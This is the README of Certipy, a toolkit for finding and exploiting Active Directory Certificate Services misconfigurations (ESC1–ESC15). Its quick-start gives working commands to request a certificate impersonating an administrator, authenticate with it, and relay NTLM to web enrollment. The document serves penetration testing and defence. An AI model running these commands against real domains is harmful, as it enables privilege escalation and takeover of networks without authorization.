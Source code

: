 # Certipy - AD CS Attack & Enumeration Toolkit

[![PyPI version](https://badge.fury.io/py/certipy-ad.svg)](https://badge.fury.io/py/certipy-ad)
![Python](https://img.shields.io/badge/python-3.12+-blue.svg)
![License](https://img.shields.io/github/license/ly4k/Certipy)

**Certipy** is a powerful offensive and defensive toolkit for enumerating and abusing Active Directory Certificate Services (AD CS). It helps red teamers, penetration testers, and defenders assess AD CS misconfigurations — including full support for identifying and exploiting all known **ESC1–ESC15** attack paths (excluding ESC5).

> [!WARNING]
> Use only in environments where you have explicit authorization. Unauthorized use may be illegal.

---

## 🔍 Features

- 🔎 Discover Enterprise Certificate Authorities and Templates
- 🚩 Identify misconfigurations (e.g., ESC1–ESC15)
- 🔐 Request and forge certificates
- 🎭 Perform authentication using certificates (PKINIT/Schannel)
- 📡 Relay NTLM authentication to AD CS HTTP/RPC endpoints
- 🧪 Support for Shadow Credentials, Golden Certificates, and Certificate Mapping Attacks

---

## 📚 Full Wiki & Documentation

Read the full **step-by-step usage guide**, including installation, vulnerability explanations, examples, and mitigations in the [📘 Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## ⚙️ Installation

Certipy supports **Python 3.12+** on both **Linux** and **Windows**. Linux is the primary supported platform, but core functionality works on Windows as well.

> [!TIP]
> **For Kali Linux Users**  
> Certipy is pre-installed in Kali under the command name `certipy-ad`.  
> The Kali package is **not maintained by the original author** and may **lag behind the latest version**.  
> For the latest features and fixes, install from PyPI manually using `pip`.

### 🐧 Linux (Debian/Ubuntu/Kali)

```bash
sudo apt update && sudo apt install -y python3 python3-venv python3-pip
python3 -m venv ~/certipy-env
source ~/certipy-env/bin/activate
pip install --upgrade pip
pip install certipy-ad
````

### 🪟 Windows (PowerShell)

```powershell
python -m venv certipy-env
certipy-env\Scripts\Activate.ps1
pip install --upgrade pip
pip install certipy-ad
```

Verify installation:

```bash
certipy -h
```

---

## 🚀 Quick Start

### Enumerate CAs and Templates

```bash
certipy find -u 'user@corp.local' -p 'Passw0rd!' -dc-ip 10.0.0.100
```

### Request a Certificate for Another User (ESC1-style)

```bash
certipy req -u 'user@domain.local' -p 'Passw0rd!' \
  -ca 'CORP-CA' -target 'CA.CORP.LOCAL' \
  -template 'ESC1' \
  -upn 'administrator@corp.local' \
  -sid 'S-1-5-21-2328196741-663698128-2762965104-500' \
  -dc-ip 10.0.0.100
```

### Authenticate with a Certificate

```bash
certipy auth -pfx ./administrator.pfx -dc-ip 10.0.0.100
```

### NTLM Relay to AD CS Web Enrollment (ESC8)

```bash
certipy relay -ca http://ca.corp.local -template DomainController
```

---

## ✅ Supported ESC Vulnerabilities

Certipy provides comprehensive support for detecting and exploiting AD CS vulnerabilities **ESC1 – ESC15** (excluding ESC5)

For detailed explanations, exploitation steps, and mitigation strategies, refer to the [Certipy Wiki](https://github.com/ly4k/Certipy/wiki).

---

## 📎 Related Tools & References

* 📘 [Certified Pre-Owned – SpecterOps](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* 🔭 [BloodHound PKI Attack Paths](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-1-799f3d3b03cf)
* 🛡️ [Microsoft AD CS Hardening Guide](https://learn.microsoft.com/en-us/defender-for-identity/security-assessment-prevent-users-request-certificate)

---

## 🛡️ Disclaimer

This tool is designed exclusively for use in **authorized penetration testing**, **red teaming**, **security assessments**, and **security research**. **Do not use** in environments where you do not have **explicit written permission**. Unauthorized use may violate laws and ethical standards.

---

## 🤝 Contributing

Contributions are welcome! See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines on reporting issues, improving documentation, or submitting pull requests.

---

## 🌟 Sponsors

Thanks to these generous sponsors for supporting the development of this project. Your contributions help sustain ongoing work and improvements.

<!-- sponsors --><a href="https://github.com/fgeek"><img src="https:&#x2F;&#x2F;github.com&#x2F;fgeek.png" width="60px" alt="User avatar: Henri Salo" /></a><a href="https://github.com/mxrch"><img src="https:&#x2F;&#x2F;github.com&#x2F;mxrch.png" width="60px" alt="User avatar: mxrch" /></a><!-- sponsors -->

---

## 👤 Author

Developed by [@ly4k](https://github.com/ly4k), with valuable contributions from the community.

---

## 📘 Wiki

📖 Visit the [**Certipy Wiki**](https://github.com/ly4k/Certipy/wiki) for detailed documentation, usage examples, ESC vulnerability breakdowns, and mitigation advice.

